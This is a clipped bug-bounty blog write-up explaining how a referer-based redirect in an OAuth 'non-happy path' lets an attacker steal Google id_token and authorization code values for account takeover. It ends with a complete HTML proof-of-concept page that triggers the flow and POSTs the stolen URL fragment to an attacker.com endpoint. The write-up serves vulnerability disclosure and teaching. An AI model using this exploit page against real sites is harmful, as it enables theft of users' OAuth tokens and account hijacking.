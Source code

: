 ```yaml
---
title: "OAuth Non-Happy Path to ATO"
source: "https://blog.voorivex.team/oauth-non-happy-path-to-ato?__readwiseLocation="
author:
  - "Omid Rezaei"
published: 2024-11-22
created: 2025-08-13
description: "Learn how small errors in OAuth implementation can lead to significant security vulnerabilities like one-click account takeover in web applications"
tags:
  - "clippings/articles"
  - "_inbox"
---
```

# OAuth Non-Happy Path to ATO

![](https://hashnode.com/utility/r?url=https%3A%2F%2Fcdn.hashnode.com%2Fres%2Fhashnode%2Fimage%2Fupload%2Fv1726592696759%2Fd893c745-fc97-4add-9279-0efa665d38a2.jpeg%3Fw%3D1200%26auto%3Dcompress%2Cformat%26format%3Dwebp%26fm%3Dpng)

> [!summary]
> The article details an OAuth non-happy path vulnerability that enables account takeover (ATO) due to implementation errors. It exploits a referer-based open redirect by forcing the target application into an unusual flow, achieved by manipulating the `response_type` parameter to cause sensitive tokens to be appended to the URL fragment. Referer research confirmed an attacker-controlled referer could be maintained across redirects using `window.open` and 3xx status codes. While Facebook and GitHub were not exploitable, Google's flow was vulnerable as it allowed `response_type=code,id_token` and `prompt=none` to bypass user interaction, ensuring the attacker's site remained the referer. This allowed the attacker to steal both `id_token` and the critical `authorization code` from the URL fragment, leading to ATO. The reported vulnerability resulted in a $3000 bounty.

**Happy Path** definition according **to** [**Wikipedia**](https://en.wikipedia.org/wiki/Happy_path)**:**

> In the context of software or information modeling, a happy path (sometimes called happy flow) is a default scenario featuring no exceptional or error conditions. For example, the happy path for a function validating credit card numbers would be where none of the validation rules raise an error, thus letting execution continue successfully to the end, generating a positive response.

**Non-Happy Paths** definition based on Frans Rosen's write-up:

> First, let’s explain the various ways to break the OAuth-dance. When I mean break, I mean causing a difference between the OAuth-provider issuing valid codes or tokens, but the website that gets the tokens from the provider is not successfully receiving and handling the tokens. I’ll refer to this below as a “non-happy path.

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-oauth-flow-of-the-target "Permalink")**OAuth Flow of the Target**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1728073019425/15bb6644-8d22-4e1b-aa30-349ce7fe5f1c.png?auto=compress,format&format=webp)

green path is the happy path

red one is an non-happy path where the application continues with a different flow.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1724220247685/68598c51-c0d5-4c3c-8d7b-e69fb724d14e.png?auto=compress,format&format=webp)

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-open-redirect-referer-based "Permalink")**Open Redirect Referer Based**

As observed, in the other flow, the web application (not the OAuth provider) redirects the user to the `referer` value without any parameter. This behavior is not a vulnerability, but it is not a common way for error handling. As a hunter, when I face these situations, I dig a little bit to discover something new.

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-fragment-redirect "Permalink")Fragment Redirect

There are two common ways to redirect users: server-side and client-side. In the first method, when a user is redirected to another website, the fragment part of the URL remains unchanged, however, in a client-side redirect, the fragment part of the URL is removed with each redirect:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1731315330876/4eb0b89d-52fe-4aea-908c-3248c31b344d.png?auto=compress,format&format=webp)

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-response-type "Permalink")**Response Type**

To achieve the non-happy path (the red one in the diagram), I needed to force the application to derail from its normal behavior. So, I tried changing the `response_type` parameter from `code` to `id_token` (I learned the technique from [here](https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/)), and I was able to enter the other flow.

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-referer-research "Permalink")**Referer Research**

If I open `attacker.com` and it contains `window.open(‘google.com‘)` and it redirects me to the `x.com` by `3xx` status code, the [x.com](http://x.com/) will see the referer as `attacker.com`.

## [Permalink](https://blog.voorivex.team/?__readwiseLocation=#heading-exploitation-flow "Permalink")**Exploitation: Flow**

so the exploit flow looks like this,

1. the attacker sends a malicious link to the victim.
2. the victim opens the malicious link and an opener starts the Google OAuth flow with `response_type=id_token,code&prompt=none` as additional parameters.
3. In the opener, after the provider authorizes the victim, it sends them back to the value of the `redirect_uri` parameter, which is a target website.
4. Due to the non-happy path, the victim is redirected to the attacker's website with everything the attacker needs in the fragment section.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1731316422739/22f91017-78f6-4a99-89f6-9404c39598ed.png?auto=compress,format&format=webp)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Attacker Website</title>
</head>
<body>
    <input type="button" value="exploit" onclick="exploit()">
    <script>
        function exploit() {
            window.open("https://accounts.google.com/o/oauth2/auth?client_id=&redirect_uri=https://target.com/api/v1/oauth/google/callback/login&scope=https://www.googleapis.com/auth/userinfo.profile%20https://www.googleapis.com/auth/userinfo.email&state=&response_type=id_token,code&prompt=none", "", "width=10, height=10");
        }

        window.addEventListener('load', () => {
            const fragment = window.location.hash;
            if (fragment) {
                const encodedFragment = encodeURIComponent(fragment);
                fetch('https://attacker.com/save_tokens', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/x-www-form-urlencoded',
                    },
                    body: \`${encodedFragment}\`,
                });
            }
        });
    </script>
</body>
</html>
```